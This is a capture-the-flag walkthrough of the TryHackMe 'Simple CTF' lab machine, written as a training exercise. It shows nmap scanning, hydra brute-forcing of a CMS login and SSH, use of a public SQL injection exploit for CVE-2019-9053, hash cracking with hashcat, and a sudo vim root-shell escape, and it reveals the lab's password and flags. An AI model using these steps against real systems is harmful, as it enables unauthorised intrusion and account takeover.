 ```yaml
---
title: Simple CTF
date: 2022-05-07 17:00:00 +500
categories: [THM, easy machines]
tags: [hash]    # TAG names should always be lowercase
---
```



### How many services are running under port 1000?

Let's run Nmap:

```terminal
nmap -p- --open -n -v 10.10.228.206
```

```
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```

> 2

### What is running on the higher port?

We don't know which service is running on port 2222, so let's find out what it is and check the other ports while we're at it.

```terminal
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

> ssh

### What's the CVE you're using against the application?

now time to investigate the service, the FTP server accepted Anonymous login, and was only one file which was a note for Mitch a possible credential.

```
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

and we know that he uses the same password for everything and it's weak.

The next step was to search domains on the web page, that had only the default Apache screen. I found /robots.txt 

```
Disallow: /openemr-5_0_1_3 
#
# End of "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $".
#
```

with a directory that was nothing, and a line of command of Linux? looks like mike is a user, maybe he's mitch.

the other directory that gobuster found was /simple a content management system like WordPress. It's the default after-installation page, it has a post made by mitch so now we know that is the user. And in the page says that the administration console is under 'http://yourwebsite.com/cmsmspath/admin' with a redirect link, Let's try to brute force with hydra since the note said that his password is weak.

set up the hydra command:

syntax 
``` terminal 
hydra -l <USER> -p <Password> <IP Address> http-post-form “<Login Page>:<Request Body>:<Error Message>”
```

* Login page
  /simple/admin/login.php
* Request Body
  username=^USER^&password=^PWD^&loginsubmit=Submit
* Error message
  User name or password incorrect

```terminal
hydra -l mitch -P /usr/share/wordlists/rockyou.txt 10.10.228.206 http-post-form "/simple/admin/login.php:username=^USER^&password=^PWD^&loginsubmit=Submit:User name or password incorrect"
```

it didn't find the password nor for mike, so at this point, I realized I have lost course, the question was what CVE is this application vulnerable to, so I looked up the cms version, and I found it's vulnerable to SQL injection, the first thing I did after this was to try some payloads like "'OR 1=1 --" but no luck.

> CVE-2019-9053

### To what kind of vulnerability is the application vulnerable?

> sqli

### What's the password?

The first thing after searching for the CMS version was an exploit written in Python, so I downloaded it, wasn't working at first because it looked like was written for python2, but running it with python2 it said it couldn't find a library, so I tried to make it work with python3, all I needed to do was adding () to the prints.

exploit: https://www.exploit-db.com/exploits/46635

this is the output:
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

this confirms mitch user, and we get a password, that looks like its encrypted, anyway, it tried and it didn't work, so now I was looking to crack it, I tried with hashcat but nothing was working, tried with the salt, without it, different modes, even with the wordlist that recommended the hint.

after this, I gave up on the site and tried to bruteforce ssh, since the note said he uses the same password.
*changing the port with the -s flag since the ssh service was on that port

```terminal
hydra -l mitch -P /usr/share/wordlists/best110.txt 10.10.228.206 -s 2222 ssh
```

and I got a password!


> secret

*the intended way was indeed using hashcat with a config I'm pretty sure I used but maybe I made a typo, who knows
```terminal
hashcat -O -m 20 -a 0 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2 /usr/share/wordlists/best110.txt
```

### Where can you login with the details obtained?

Now this feels strange because the answer is ssh but I actually got it from brute forcing this service and not the intended way of the vulnerability on the CMS page.

> ssh

### What's the user flag?

log into the ssh

```terminal
ssh mitch@10.10.228.206 -p 2222
```

the file is right there: user.txt

> G00d j0b, keep up!

### Is there any other user in the home directory? What's its name?

ls /home

> sunbath

### What can you leverage to spawn a privileged shell?

run sudo -l to see what I can run as sudo, and it's vim, I head over gtfobin pretty sure that this can spawn a root shell.

and indeed, with this command, I got instantly a root shell

```terminal
sudo vim -c ':!/bin/sh'
```

### What's the root flag?

cat /root/root.txt

> W3ll d0n3. You made it!
